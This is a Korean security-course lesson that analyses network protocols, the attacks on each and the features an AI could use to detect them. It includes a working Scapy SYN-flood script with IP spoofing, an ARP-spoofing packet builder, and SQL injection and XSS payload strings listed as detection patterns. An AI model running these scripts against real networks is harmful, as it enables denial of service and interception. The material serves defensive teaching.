

---

layout: post
title: " 2. 주요 프로토콜 분석: 네트워크 공격의 이해와 AI 탐지"
date: 2024-01-12 09:00:00 +0900
categories: [security-fundamentals, network-security]
tags: [AI, Cybersecurity, SK-Rookies]

---

# 📡 2. 주요 프로토콜 분석: 네트워크 공격의 이해와 AI 탐지

## 🔄 이전 단원 복습: 네트워크 기초와 OSI 7계층

이전 단원 `1. 네트워크 기초.md`에서 우리는 네트워크의 근간이 되는 OSI 7계층 모델과 TCP/IP 4계층 모델, IP 주소 체계, 그리고 주요 네트워크 장비의 역할과 보안적 의미를 학습했습니다. 또한 `Scapy`를 활용하여 네트워크 패킷을 계층별로 분석하는 기초적인 방법을 경험했습니다.

> **핵심 복습:**
> 
> *   **OSI 7계층:** 네트워크 통신 과정을 체계적으로 이해하고, 각 계층에서 발생할 수 있는 보안 문제를 식별하는 프레임워크.
> *   **IP 주소:** 네트워크 장치를 식별하는 논리적 주소. IP 스푸핑(IP Spoofing)과 같은 공격의 대상이 될 수 있음.
> *   **네트워크 장비:** 허브, 스위치, 라우터 등 각 장비의 기능과 보안 취약점을 이해하는 것이 중요.
> *   **`Scapy`:** 파이썬 기반의 패킷 분석 도구로, AI 모델이 학습할 특징을 추출하는 데 활용될 수 있음.
> 
> 이제 우리는 네트워크의 큰 그림을 이해했습니다. 하지만 실제 공격은 이 큰 그림 속의 **'세부 규칙'**, 즉 **프로토콜(Protocol)**의 허점을 파고듭니다. 오늘 배울 주요 프로토콜 분석은 각 프로토콜의 상세한 작동 원리를 이해하고, 이를 이용한 공격 기법, 그리고 AI 모델이 이러한 공격을 탐지하기 위해 어떤 특징을 학습해야 하는지에 대해 구체적으로 학습하는 데 중점을 둡니다.

---

## 🤔 주요 프로토콜 분석을 왜 배워야 할까요? (The "Why")

네트워크 프로토콜은 데이터 통신을 위한 약속입니다. 이 약속이 어떻게 이루어지는지 정확히 이해해야만, 공격자가 이 약속을 어떻게 위반하거나 악용하는지 파악할 수 있습니다. 모든 네트워크 공격은 특정 프로토콜의 취약점을 이용하거나, 프로토콜의 정상적인 작동 방식을 오용하여 발생합니다.

**[프로토콜 분석 능력의 중요성]**
*   **공격 원리 이해:** SQL Injection이 HTTP 프로토콜의 요청 본문(Request Body)을 조작하는 것임을 이해하듯이, 각 공격이 어떤 프로토콜 계층에서 어떻게 이루어지는지 파악할 수 있습니다.
*   **탐지 규칙 설계:** 특정 프로토콜의 비정상적인 패턴(예: TCP SYN 플래그만 연속적으로 발생하는 경우)을 기반으로 침입 탐지 시스템(IDS)의 규칙을 설계할 수 있습니다.
*   **AI 특징 추출:** AI 모델이 학습할 '특징'을 추출할 때, 프로토콜 헤더의 특정 필드(예: TTL 값, 플래그 정보)나 페이로드(Payload)의 패턴이 중요한 특징이 될 수 있음을 이해합니다.
*   **방어 전략 수립:** 각 프로토콜의 취약점을 알고 있어야 방화벽, IPS 등의 보안 장비에서 효과적인 방어 정책을 수립할 수 있습니다.

> **보안 전문가에게 주요 프로토콜 분석이란?**
> 
> 공격자가 사용하는 **'언어'와 '전술'**을 이해하는 것입니다. 프로토콜의 상세한 구조와 작동 방식을 파악함으로써, 공격자가 어떤 메시지를 보내고, 어떤 방식으로 시스템을 속이는지 정확히 분석하고, AI 모델에게 **'공격자의 언어를 가르쳐 탐지하게 하는'** 핵심 지식입니다.

---

## 1. 🌐 전송 계층 프로토콜: TCP와 UDP 심층 분석

전송 계층(OSI 4계층, TCP/IP 3계층)은 애플리케이션 간의 데이터 전송을 담당합니다. TCP와 UDP는 이 계층의 대표적인 프로토콜입니다.

### 1.1. 🤝 TCP (Transmission Control Protocol): 신뢰성 있는 연결

TCP는 **연결 지향(Connection-oriented)** 프로토콜로, 데이터를 주고받기 전에 3-Way Handshake 과정을 통해 연결을 설정하고, 데이터 전송 중 오류 발생 시 재전송을 통해 **신뢰성(Reliability)**을 보장합니다. 흐름 제어(Flow Control)와 혼잡 제어(Congestion Control) 기능도 제공합니다.

#### 💡 TCP 헤더 구조 (보안 관점)

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|          Source Port          |       Destination Port        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                        Sequence Number                        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Acknowledgment Number                    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|  Data |           |U|A|P|R|S|F|                               |
| Offset| Reserved  |R|C|S|S|Y|I|            Window             |
|       |           |G|K|H|T|N|N|                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|           Checksum            |         Urgent Pointer        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Options                    |    Padding    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                             Data                              |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

*   **Source Port / Destination Port:** 출발지/목적지 애플리케이션 식별. 포트 스캔 공격의 대상.
*   **Sequence Number / Acknowledgment Number:** 데이터의 순서와 수신 확인. 세션 하이재킹 공격에 악용될 수 있습니다.
*   **Flags (URG, ACK, PSH, RST, SYN, FIN):** TCP 연결 설정 및 종료, 데이터 전송 상태 제어. SYN Flooding, Xmas Tree Scan 등 다양한 공격에 활용됩니다.

> **용어 해설: 3-Way Handshake**
> 
> TCP 연결을 설정하기 위한 세 단계의 과정입니다. SYN(Synchronize Sequence Numbers), SYN-ACK(Synchronize-Acknowledge), ACK(Acknowledge) 패킷 교환을 통해 양쪽 호스트가 통신 준비가 되었음을 확인합니다. 이 과정의 취약점을 이용한 공격이 많습니다.

#### 💥 **취약점: SYN Flooding 공격 (DoS)**

공격자가 서버에 대량의 SYN 패킷을 보내고, 서버의 SYN-ACK 응답에 대해 ACK 패킷을 보내지 않아 서버의 연결 대기 큐(Queue)를 고갈시키는 서비스 거부(DoS) 공격입니다. 서버는 Half-open 상태의 연결을 유지하느라 자원을 소모하게 됩니다.

```python
# ⚠️ Scapy는 설치가 필요합니다: pip install scapy
from scapy.all import IP, TCP, send, RandIP, RandShort
import numpy as np

# ❌ SYN Flooding 공격 PoC (실제 공격 시도 금지!)
#    이 코드는 개념 이해를 위한 것이며, 실제 네트워크에 실행하면 법적 문제가 발생할 수 있습니다.
#    공격 대상 시스템에 심각한 영향을 줄 수 있으며, 법적 처벌을 받을 수 있습니다.
def syn_flood_attack(target_ip, target_port, num_packets=1000):
    print(f"--- 💥 SYN Flooding 공격 시작: {target_ip}:{target_port} ---")
    print(f"    (경고: 이 코드는 실제 공격을 시뮬레이션하며, 대상 시스템에 DoS를 유발할 수 있습니다.)")
    
    # RandIP()와 RandShort()를 사용하여 무작위 출발지 IP와 포트 생성
    # IP 스푸핑을 통해 공격자의 실제 IP를 숨기고 추적을 어렵게 합니다.
    # RandIP()는 Scapy에서 제공하는 무작위 IP 생성 함수입니다.
    # RandShort()는 Scapy에서 제공하는 무작위 포트 생성 함수입니다.
    
    for i in range(num_packets):
        # 무작위 출발지 IP 주소 생성 (스푸핑)
        src_ip = str(RandIP())
        # 무작위 출발지 포트 생성
        src_port = RandShort()
        
        # SYN 플래그만 설정된 TCP 패킷 생성
        # flags="S"는 SYN 플래그만 설정함을 의미합니다.
        ip_layer = IP(src=src_ip, dst=target_ip)
        tcp_layer = TCP(sport=src_port, dport=target_port, flags="S")
        
        packet = ip_layer / tcp_layer
        send(packet, verbose=0) # 패킷 전송, verbose=0으로 출력 억제
        if (i + 1) % 100 == 0:
            print(f"    {i+1}개의 SYN 패킷 전송 완료...")
    print(f"--- 💥 {num_packets}개의 SYN 패킷 전송 완료 ---")

# syn_flood_attack("192.168.1.100", 80, num_packets=100) # 실제 타겟 IP와 포트로 변경하여 테스트 (주의!)
```
**[AI 탐지 특징]**
*   **SYN-ACK 비율:** 특정 IP에서 SYN 패킷은 많지만, 그에 대한 SYN-ACK 응답이 없거나 ACK 패킷이 현저히 적은 경우. (정상적인 3-Way Handshake 비율 붕괴)
*   **패킷 빈도:** 특정 시간 동안 특정 포트로 유입되는 SYN 패킷의 비정상적인 증가. (임계값 기반 탐지)
*   **출발지 IP 다양성:** 짧은 시간 내에 매우 다양한 출발지 IP에서 SYN 패킷이 유입되는 경우 (IP 스푸핑 징후).
*   **세션 상태:** Half-open 연결의 비정상적인 증가.

**[방어 전략]**
*   **SYN Cookie:** 서버가 SYN-ACK에 쿠키를 포함하여 ACK 수신 시에만 연결을 설정합니다.
*   **연결 타임아웃 조정:** Half-open 연결의 타임아웃 시간을 단축하여 자원 소모를 줄입니다.
*   **Rate Limiting:** 특정 출발지 IP 또는 네트워크 대역에서 들어오는 SYN 패킷의 속도를 제한합니다.
*   **DDoS 방어 서비스:** 클라우드 기반 DDoS 방어 서비스를 활용하여 대규모 공격을 완화합니다.

#### 💥 **취약점: TCP 세션 하이재킹 (Session Hijacking)**

공격자가 정상적인 TCP 세션 중간에 끼어들어 세션을 가로채는 공격입니다. 주로 Sequence Number를 예측하여 위조된 패킷을 삽입합니다.

**[AI 탐지 특징]**
*   **Sequence Number 예측 가능성:** Sequence Number의 패턴이 예측 가능한 경우.
*   **비정상적인 ACK/RST 패킷:** 세션 중간에 비정상적인 ACK 또는 RST 패킷이 삽입되는 경우.
*   **RTT (Round Trip Time) 변화:** 세션 하이재킹 시 패킷 경로가 변경되어 RTT가 비정상적으로 변하는 경우.

**[방어 전략]**
*   **강력한 Sequence Number 생성:** 예측 불가능한 Sequence Number를 사용합니다.
*   **암호화 통신:** SSL/TLS를 사용하여 세션 데이터를 암호화하여 스니핑을 통한 정보 탈취를 방지합니다.
*   **세션 타임아웃:** 비활성 세션을 일정 시간 후 자동으로 종료합니다.

### 1.2. 🚀 UDP (User Datagram Protocol): 비연결 지향, 빠른 전송

UDP는 **비연결 지향(Connectionless)** 프로토콜로, 연결 설정 과정 없이 데이터를 즉시 전송합니다. 신뢰성을 보장하지 않지만, 오버헤드가 적어 빠르고 효율적입니다. DNS, 스트리밍 서비스, VoIP 등에 사용됩니다.

#### 💡 UDP 헤더 구조 (보안 관점)

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|          Source Port          |       Destination Port        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            Length             |           Checksum            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                             Data                              |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

*   **Source Port / Destination Port:** 출발지/목적지 애플리케이션 식별.
*   **Length:** UDP 헤더와 데이터의 총 길이.
*   **Checksum:** 데이터 무결성 검사 (선택 사항).

#### 💥 **취약점: UDP Flooding 공격 (DoS)**

공격자가 대상 서버에 대량의 UDP 패킷을 보내 서버의 대역폭을 고갈시키거나, 서버가 응답 패킷을 처리하느라 바빠지게 만들어 서비스 거부(DoS)를 유발합니다. 특히 DNS, NTP, SNMP와 같은 UDP 기반 서비스를 악용하는 증폭 공격(Amplification Attack)에 사용됩니다.

**[AI 탐지 특징]**
*   **UDP 패킷 빈도:** 특정 시간 동안 특정 포트로 유입되는 UDP 패킷의 비정상적인 증가.
*   **페이로드 크기:** UDP 패킷의 페이로드 크기가 비정상적으로 크거나 작은 경우. (증폭 공격의 경우 작은 요청에 큰 응답)
*   **출발지 IP 다양성:** IP 스푸핑을 통해 다양한 출발지 IP에서 공격이 유입되는 경우.

**[방어 전략]**
*   **Rate Limiting:** 특정 출발지 IP 또는 네트워크 대역에서 들어오는 UDP 트래픽 속도를 제한합니다.
*   **DDoS 방어 서비스:** 클라우드 기반 DDoS 방어 서비스를 활용하여 대규모 공격을 완화합니다.
*   **서비스 설정 강화:** DNS 서버의 재귀 쿼리 제한, NTP/SNMP 서비스의 접근 제어 강화.

---

## 2. 🌐 인터넷 계층 프로토콜: IP와 ICMP, ARP 심층 분석

인터넷 계층(OSI 3계층, TCP/IP 2계층)은 네트워크 간의 데이터 전송(라우팅)을 담당합니다.

### 2.1. 🌐 IP (Internet Protocol): 주소 지정과 라우팅

IP는 패킷에 출발지와 목적지 IP 주소를 부여하고, 이 주소를 기반으로 패킷을 목적지까지 전달하는 역할을 합니다.

#### 💡 IP 헤더 구조 (보안 관점)

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|Version|  IHL  |Type of Service|          Total Length         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|         Identification        |Flags|      Fragment Offset    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|  Time to Live |    Protocol   |         Header Checksum       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                       Source Address                          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Destination Address                        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Options                    |    Padding    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

*   **Source Address / Destination Address:** 출발지/목적지 IP 주소. IP 스푸핑 공격의 핵심 필드.
*   **Time to Live (TTL):** 패킷이 네트워크에서 살아남을 수 있는 최대 홉(Hop) 수. 비정상적인 TTL 값은 스푸핑이나 네트워크 문제 징후일 수 있습니다.
*   **Protocol:** 상위 계층 프로토콜(TCP, UDP, ICMP 등)을 나타냅니다.
*   **Flags / Fragment Offset:** IP 단편화(Fragmentation) 제어. 단편화 공격에 악용될 수 있습니다.

#### 💥 **취약점: IP 스푸핑 (IP Spoofing)**

공격자가 자신의 IP 주소를 위조하여 다른 시스템인 것처럼 속이는 공격입니다. 방화벽이나 침입 탐지 시스템을 우회하거나, 신뢰할 수 있는 내부 IP인 것처럼 위장하여 공격을 수행할 수 있습니다. 주로 TCP 세션 하이재킹, DoS 공격, 인증 우회 등에 사용됩니다.

**[AI 탐지 특징]**
*   **비대칭 라우팅:** 출발지 IP와 목적지 IP 간의 통신 경로가 비정상적으로 비대칭인 경우. (예: 내부 IP가 외부에서 출발지로 사용)
*   **내부 IP의 외부 출발지:** 내부망 IP 주소가 외부 네트워크에서 출발지 IP로 사용되는 경우.
*   **TCP Sequence Number의 비정상성:** 스푸핑된 패킷의 Sequence Number가 예측 불가능하거나 비정상적인 경우.
*   **TTL 값의 비정상성:** 스푸핑된 패킷의 TTL 값이 예상 범위에서 벗어나는 경우.

**[방어 전략]**
*   **Ingress Filtering:** 외부에서 내부 IP를 출발지로 하는 패킷을 차단합니다.
*   **Egress Filtering:** 내부에서 외부 IP를 출발지로 하는 패킷을 차단합니다.
*   **TCP Sequence Number 예측:** 서버가 클라이언트의 Sequence Number를 예측하여 스푸핑된 패킷을 거부합니다.
*   **인증 강화:** IP 주소만으로 인증하지 않고, 강력한 인증 메커니즘(예: SSL/TLS, VPN)을 사용합니다.

### 2.2. 🏓 ICMP (Internet Control Message Protocol): 오류 및 제어 메시지

ICMP는 IP 패킷 전송 중 발생하는 오류를 알리거나, 네트워크 상태를 진단하는 데 사용됩니다. `ping` 명령어가 ICMP Echo Request/Reply 메시지를 사용합니다.

#### 💡 ICMP 헤더 구조 (보안 관점)

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|     Type      |     Code      |          Checksum             |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                             Contents                          |
|        (varies based on Type and Code)                        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

*   **Type / Code:** ICMP 메시지의 종류를 나타냅니다. (예: Type 8: Echo Request, Type 0: Echo Reply, Type 3: Destination Unreachable)
*   **Checksum:** 헤더 무결성 검사.

#### 💥 **취약점: ICMP Flooding (Ping Flooding) 공격 (DoS)**

공격자가 대상 서버에 대량의 `ping` 요청(ICMP Echo Request)을 보내 서버의 대역폭을 고갈시키거나, 서버가 응답 패킷을 처리하느라 바빠지게 만들어 서비스 거부(DoS)를 유발합니다. Smurf 공격과 같이 증폭 공격에 사용될 수도 있습니다.

**[AI 탐지 특징]**
*   **ICMP 패킷 빈도:** 특정 시간 동안 특정 IP에서 발생하는 ICMP Echo Request 패킷의 비정상적인 증가.
*   **패킷 크기:** ICMP 패킷의 페이로드 크기가 비정상적으로 큰 경우 (Smurf 공격 등).
*   **Echo Request/Reply 비율:** 비정상적으로 Echo Request만 많고 Reply가 적은 경우.

**[방어 전략]**
*   **ICMP 트래픽 제한:** 방화벽에서 불필요한 ICMP 트래픽을 제한하거나 차단합니다.
*   **Rate Limiting:** ICMP 요청의 속도를 제한합니다.
*   **DDoS 방어 서비스:** 대규모 ICMP Flooding 공격을 완화합니다.

### 2.3. 🗺️ ARP (Address Resolution Protocol): IP를 MAC으로 변환

ARP는 IP 주소를 물리적 MAC 주소로 변환해 주는 프로토콜입니다. 동일 네트워크 내에서 통신할 때 사용됩니다.

#### 💡 ARP 패킷 구조 (보안 관점)

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        Hardware Type (HTYPE)        |     Protocol Type (PTYPE)     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|  HLEN   |  PLEN   |      Operation (OPER)       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            Sender Hardware Address (SHA) (6 bytes)            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            Sender Protocol Address (SPA) (4 bytes)            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            Target Hardware Address (THA) (6 bytes)            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            Target Protocol Address (TPA) (4 bytes)            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

*   **Operation:** ARP 요청(1) 또는 ARP 응답(2)을 나타냅니다. ARP 스푸핑 공격은 위조된 ARP 응답을 사용합니다.
*   **Sender Hardware Address (SHA) / Sender Protocol Address (SPA):** 요청/응답을 보내는 장치의 MAC 주소와 IP 주소.
*   **Target Hardware Address (THA) / Target Protocol Address (TPA):** 요청/응답을 받는 장치의 MAC 주소와 IP 주소.

#### 💥 **취약점: ARP 스푸핑 (ARP Spoofing)**

공격자가 자신의 MAC 주소를 다른 장치(예: 게이트웨이)의 MAC 주소인 것처럼 속여, 네트워크 트래픽을 가로채거나 변조하는 중간자 공격(Man-in-the-Middle Attack)의 한 형태입니다. 공격자는 위조된 ARP 응답을 네트워크에 지속적으로 전송하여 ARP 테이블을 오염시킵니다.



**[AI 탐지 특징]**
*   **ARP 응답 빈도:** 특정 MAC 주소에서 비정상적으로 많은 ARP 응답이 발생하는 경우. (특히 ARP 요청 없이 응답만 오는 경우)
*   **MAC 주소 변경:** 특정 IP 주소에 대한 MAC 주소가 짧은 시간 내에 자주 변경되는 경우.
*   **게이트웨이 MAC 주소 불일치:** 게이트웨이의 MAC 주소가 실제와 다른 MAC 주소로 ARP 응답이 오는 경우.
*   **패킷 내용 분석:** ARP 응답 패킷의 SHA와 SPA가 일치하지 않는 경우.

**[방어 전략]**
*   **정적 ARP 테이블:** 중요한 서버나 게이트웨이의 ARP 테이블을 수동으로 설정하여 변경을 방지합니다.
*   **ARP 감시 도구:** ARP 트래픽을 모니터링하여 비정상적인 ARP 응답을 탐지하고 경고합니다. (예: `arpwatch`)
*   **네트워크 접근 제어 (NAC):** 비인가 장치의 네트워크 접속을 차단합니다.
*   **스위치 보안:** 포트 보안(Port Security) 기능을 활성화하여 특정 포트에서 허용되는 MAC 주소를 제한합니다.

#### PoC: `Scapy`를 이용한 ARP 스푸핑 패킷 생성 (개념)

```python
# ⚠️ Scapy는 설치가 필요합니다: pip install scapy
from scapy.all import Ether, ARP, send
import time

# ❌ ARP 스푸핑 패킷 생성 PoC (실제 공격 시도 금지!)
#    이 코드는 개념 이해를 위한 것이며, 실제 네트워크에 실행하면 법적 문제가 발생할 수 있습니다.
#    대상 시스템에 심각한 영향을 줄 수 있으며, 법적 처벌을 받을 수 있습니다.
def arp_spoof_packet_generator(target_ip, target_mac, gateway_ip, attacker_mac):
    print(f"--- 💥 ARP 스푸핑 패킷 생성 시작 ---")
    print(f"    (경고: 이 코드는 실제 공격을 시뮬레이션하며, 네트워크에 혼란을 줄 수 있습니다.)")

    # 1. Victim에게 "Gateway IP의 MAC은 Attacker MAC"이라고 알리는 패킷
    # pdst: Victim의 IP, psrc: Gateway의 IP, hwsrc: Attacker의 MAC
    packet_to_victim = Ether(dst=target_mac)/ARP(op=2, pdst=target_ip, psrc=gateway_ip, hwsrc=attacker_mac)
    
    # 2. Gateway에게 "Victim IP의 MAC은 Attacker MAC"이라고 알리는 패킷
    # pdst: Gateway의 IP, psrc: Victim의 IP, hwsrc: Attacker의 MAC
    packet_to_gateway = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=2, pdst=gateway_ip, psrc=target_ip, hwsrc=attacker_mac)
    # Gateway의 MAC을 모를 경우 브로드캐스트(ff:ff:ff:ff:ff:ff)로 보낼 수 있습니다.

    print(f"  - Victim({target_ip})에게 보낼 패킷: {packet_to_victim.summary()}")
    print(f"  - Gateway({gateway_ip})에게 보낼 패킷: {packet_to_gateway.summary()}")
    
    # 실제 공격에서는 이 패킷들을 지속적으로 전송합니다.
    # send(packet_to_victim, verbose=0)
    # send(packet_to_gateway, verbose=0)
    print("--- 💥 ARP 스푸핑 패킷 생성 완료 (전송은 하지 않음) ---")

# 예시 사용 (실제 환경에 맞게 IP와 MAC 주소 변경 필요)
# arp_spoof_packet_generator("192.168.1.100", "00:11:22:33:44:55", "192.168.1.1", "AA:BB:CC:DD:EE:FF")
```

---

## 3. 🌐 응용 계층 프로토콜: HTTP와 DNS 심층 분석

응용 계층(OSI 7계층, TCP/IP 4계층)은 사용자에게 직접적인 서비스를 제공합니다.

### 3.1. 🌐 HTTP (HyperText Transfer Protocol): 웹 통신

HTTP는 웹 브라우저와 웹 서버 간의 통신에 사용되는 프로토콜입니다.

#### 💡 HTTP 메시지 구조 (보안 관점)

```
GET /index.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1

(요청 본문 - POST/PUT의 경우)
```

*   **메서드 (GET, POST, PUT, DELETE 등):** 요청의 종류를 나타냅니다. 비정상적인 메서드 사용은 공격 징후일 수 있습니다.
*   **URL/Path:** 요청 대상 리소스의 경로. Path Traversal, SQL Injection, XSS 공격에 악용될 수 있습니다.
*   **헤더 (Host, User-Agent, Referer, Cookie 등):** 요청에 대한 추가 정보. User-Agent 스푸핑, Referer 스푸핑, 세션 하이재킹 등에 악용될 수 있습니다.
*   **요청 본문 (Request Body):** POST/PUT 요청 시 데이터 포함. SQL Injection, Command Injection 등 인젝션 공격의 주요 대상입니다.

#### 💥 **취약점: HTTP 기반 웹 공격**

*   **SQL Injection (SQLi):** HTTP 요청의 파라미터, 헤더, 쿠키 등을 조작하여 데이터베이스에 비정상적인 SQL 쿼리를 실행하게 만드는 공격.
*   **XSS (Cross-Site Scripting):** 웹 페이지에 악성 스크립트를 주입하여 사용자 세션 탈취, 정보 유출 등을 유발하는 공격.
*   **CSRF (Cross-Site Request Forgery):** 사용자가 의도하지 않은 요청을 강제로 실행하게 만드는 공격.
*   **HTTP Flooding:** 대량의 HTTP 요청을 보내 웹 서버의 자원을 고갈시키는 DoS 공격.

**[AI 탐지 특징]**
*   **요청 파라미터 패턴:** SQL Injection 패턴(`' OR 1=1 --`, `UNION SELECT`), XSS 스크립트(`alert(1)`) 등 악성 문자열 포함 여부.
*   **요청 빈도:** 특정 IP에서 특정 URL로 비정상적으로 많은 요청이 발생하는 경우.
*   **사용자 에이전트:** 비정상적인 User-Agent 문자열 사용 (예: `curl`, `nmap` 등 공격 도구 User-Agent).
*   **HTTP 메서드:** 허용되지 않는 HTTP 메서드 사용 (예: `TRACE`, `OPTIONS`).
*   **응답 코드:** 비정상적인 응답 코드(예: 500 Internal Server Error)의 급증.

**[방어 전략]**
*   **HTTPS 사용:** 모든 통신을 암호화하여 스니핑을 통한 정보 탈취를 방지합니다.
*   **웹 방화벽 (WAF):** 웹 공격 패턴을 탐지하고 차단합니다.
*   **시큐어 코딩:** 입력값 검증, 출력값 인코딩, CSRF 토큰 사용 등 개발 단계부터 보안을 고려합니다.
*   **Rate Limiting:** 특정 IP 또는 사용자로부터의 요청 속도를 제한하여 DoS 공격을 완화합니다.

### 3.2. 🌐 DNS (Domain Name System): 도메인 이름 해석

DNS는 사람이 읽기 쉬운 도메인 이름(예: `google.com`)을 컴퓨터가 이해하는 IP 주소로 변환해 주는 시스템입니다.

#### 💡 DNS 메시지 구조 (보안 관점)

```
+---------------------+
|        Header       |
+---------------------+
|       Question      |
+---------------------+
|        Answer       |
+---------------------+
|      Authority      |
+---------------------+
|      Additional     |
+---------------------+
```

*   **Header:** 메시지 ID, 플래그(쿼리/응답, 재귀 쿼리 등), 응답 코드(NOERROR, SERVFAIL 등).
*   **Question:** 질의하는 도메인 이름, 타입(A, MX, NS 등).
*   **Answer / Authority / Additional:** 질의에 대한 응답 정보.

#### 💥 **취약점: DNS 증폭 공격 (DNS Amplification Attack)**

공격자가 위조된 출발지 IP(공격 대상의 IP)로 DNS 서버에 짧은 쿼리(예: `ANY` 타입 쿼리)를 보내면, DNS 서버는 이 쿼리에 대한 매우 큰 응답을 공격 대상에게 보내게 됩니다. 이를 통해 공격 대상의 네트워크 대역폭을 고갈시키는 DoS 공격입니다.

**[AI 탐지 특징]**
*   **DNS 응답 크기:** 특정 IP로 전송되는 DNS 응답 패킷의 크기가 비정상적으로 큰 경우.
*   **DNS 쿼리 빈도:** 특정 IP에서 발생하는 DNS 쿼리 또는 응답 패킷의 비정상적인 증가.
*   **쿼리 도메인:** 악성 도메인(C2 서버, 피싱 사이트)에 대한 DNS 쿼리 발생 여부.
